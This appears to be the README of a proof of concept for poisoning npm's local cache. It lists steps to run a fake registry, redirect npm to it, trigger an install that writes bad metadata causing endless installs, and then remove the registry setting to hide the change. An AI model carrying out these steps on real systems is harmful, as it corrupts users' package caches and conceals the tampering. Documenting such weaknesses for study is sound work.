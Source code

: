 # POC of npm cache poison

* start fake registry
```bash
cd server
npm start
```
* set npm to use this registry
```bash
npm config set registry http://localhost:6790
```
* run sandbox install(this command will drop cache to rewrite it with wrong metadata)
```bash
cd sandbox
npm start
```
**NOTE** this project has cyclic dependency(install will never end) drop this process after 20 sec
* hide registry rewrite
```bash
npm config delete registry
```
* you cache has invalid metadata if you will try install modules from sandbox malware meta will cause infinite install
